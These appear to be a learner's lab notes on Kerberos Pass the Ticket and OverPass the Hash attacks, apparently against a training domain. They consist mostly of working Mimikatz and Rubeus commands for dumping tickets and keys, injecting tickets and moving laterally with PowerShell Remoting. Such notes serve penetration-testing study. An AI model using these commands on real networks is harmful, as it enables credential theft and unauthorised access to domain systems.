 # Pass the Ticket from Windows

* The `TGT - Ticket Granting Ticket` is the first ticket obtained on a Kerberos system. The TGT permits the client to obtain additional Kerberos tickets or `TGS`.
* The `TGS - Ticket Granting Service` is requested by users who want to use a service. These tickets allow services to verify the user's identity.

## methods to get a ticket using `Mimikatz` and `Rubeus`

we get local admin rights somehow then,


> [!NOTE]
> As a non-administrative user, you can only get your tickets, but as a local administrator, you can collect everything.


#### we can get tickets with mimikatz module named sekurlsa::tickets /export. which gives file .kirbi

```
sekurlsa::tickets /export
```

![[image 4 2.png]]
Note: At the time of writing, using Mimikatz version 2.2.0 20220919, if we run "sekurlsa::ekeys" it presents all hashes as des_cbc_md4 on some Windows 10 versions. Exported tickets (sekurlsa::tickets /export) do not work correctly due to the wrong encryption. It is possible to use these hashes to generate new tickets or use Rubeus to export tickets in base64 format.


#### Rubeus - Export Tickets
![[image 5 1.png]]



> [!NOTE]
> Note: To collect all tickets we need to execute Mimikatz or Rubeus as an administrator.


### Pass the Key or OverPass the Hash

The Pass the Key or OverPass the Hash approach converts a hash/key (rc4\_hmac, aes256\_cts\_hmac\_sha1, etc.) for a domain-joined user into a full Ticket-Granting-Ticket (TGT).

```
sekurlsa::ekeys
```

![[image 6 1.png]]


with AES256\_HMAC and RC4\_HMAC keys, we can perform the OverPass the Hash or Pass the Key attack using Mimikatz and Rubeus

![[image 7 1.png]]


**This will create a new cmd.exe window that we can use to request access to any service we want in the context of the target user.**

### Rubeus - Pass the Key or OverPass the Hash

don't know why but not working


```
Rubeus.exe  asktgt /domain:inlanefreight.htb /user:plaintext /aes256:b21c99fc068e3ab2ca789bccbef67de43791fd911c6e15ead25641a8fda3fe60 /nowrap
```

![[image 8 1.png]]


> [!NOTE]
> Note: Mimikatz requires administrative rights to perform the Pass the Key/OverPass the Hash attacks, while Rubeus doesn't.


## Pass the Ticket

we can use this kerberos tickets to do PtT attack

### Mimikatz usage


```cmd-session
kerberos::ptt "C:\Users\plaintext\Desktop\Mimikatz\[0;6c680]-2-0-40e10000-plaintext@krbtgt-inlanefreight.htb.kirbi"
```

![[image 9 1.png]]
Pass the ticket


### Rubeus usage

```cmd-session
Rubeus.exe asktgt /domain:inlanefreight.htb /user:plaintext /rc4:3f74aa8f08f712f09cd5177b5c1ce50f /ptt
```

![[image 11 1.png]]

![[image 13 1.png]]
we can authenticate as that user

Another way is to import the ticket into the current session using the `.kirbi` file from the disk

use a ticket exported from Mimikatz and import it using Pass the Ticket

```cmd-session
Rubeus.exe ptt /ticket:[0;6c680]-2-0-40e10000-plaintext@krbtgt-inlanefreight.htb.kirbi
```

![[spaces_ROk2K3zZId4eElllNbe7_uploads_ighHbI7fk2sgjLDvJLxb_image.webp]]

### **Convert .kirbi to Base64 Format**

convert to base64"
```powershell
[Convert]::ToBase64String([IO.File]::ReadAllBytes("[0;6c680]-2-0-40e10000-plaintext@krbtgt-inlanefreight.htb.kirbi"))
```

```cmd-session
Rubeus.exe ptt /ticket:doIE1jCCBNKgAwIBBaEDAgEWooID+TCCA/VhggPxMIID7aADAgEFoQkbB0hUQi5DT02iHDAaoAMCAQKhEzARGwZrcmJ0Z3QbB2h0Yi5jb22jggO7MIIDt6ADAgESoQMCAQKiggOpBIIDpY8Kcp4i71zFcWRgpx8ovymu3HmbOL4MJVCfkGIrdJEO0iPQbMRY2pzSrk/gHuER2XRLdV/<SNIP>
```

![[image 14 1.png]]

#### **with above three methods of** Rubeus we can achive same things!

## Pass The Ticket with PowerShell Remoting (Windows)

[PowerShell Remoting](https://docs.microsoft.com/en-us/powershell/scripting/learn/remoting/running-remote-commands?view=powershell-7.2) allows us to run scripts or commands on a remote computer

To create a PowerShell Remoting session on a remote computer, you must have administrative permissions, be a member of the Remote Management Users group, or have explicit PowerShell Remoting permissions in your session configuration

Suppose we find a user account that doesn't have administrative privileges on a remote computer but is a member of the Remote Management Users group. In that case, we can use PowerShell Remoting to connect to that computer and execute commands

### Mimikatz

{% code overflow="wrap" %}
```cmd-session
kerberos::ptt "C:\Users\Administrator.WIN01\Desktop\[0;1812a]-2-0-40e10000-john@krbtgt-INLANEFREIGHT.HTB.kirbi"
```
{% endcode %}

```
Enter-PSSession -ComputerName DC01
```

![[image 15 1.png]]

### Rubeus

#### **Create a Sacrificial Process with Rubeus**

![[spaces_ROk2K3zZId4eElllNbe7_uploads_IAsZeRypxx60ExKHhZAv_image.webp]]
Logon type 9

The above command will open a new cmd window. From that window, we can execute Rubeus to request a new TGT with the option `/ptt` to import the ticket into our current session and connect to the DC using PowerShell Remoting

#### **Rubeus - Pass the Ticket for Lateral Movement**


```cmd-session
Rubeus.exe asktgt /user:john /domain:inlanefreight.htb /aes256:9279bcbd40db957a0ed0d3856b2e67f9bb58e6dc7fc07207d0763ce2713f11dc /ptt
```

![[image 16 1.png]]

# Q. What is difference between pass the key/OverPass the Hash and Pass the ticket?

if you already have a ticket, you can PTT, if you have credentials or NTLM hash and wants to get a ticket for future authentication, you can OPTH. PTT uses kerberos to autenticate

it depends on what we want, but both gives same result

# Q. What exactly do we get with pass the ticket and Pass The Ticket with PowerShell Remoting?

with PTT we can get that particular allocated share

the machine you ran mimikatz on probably isn't the DC so obviously `C:\john` doesn't exist, when you psremote you're opening a shell on DC if that's the ip you set
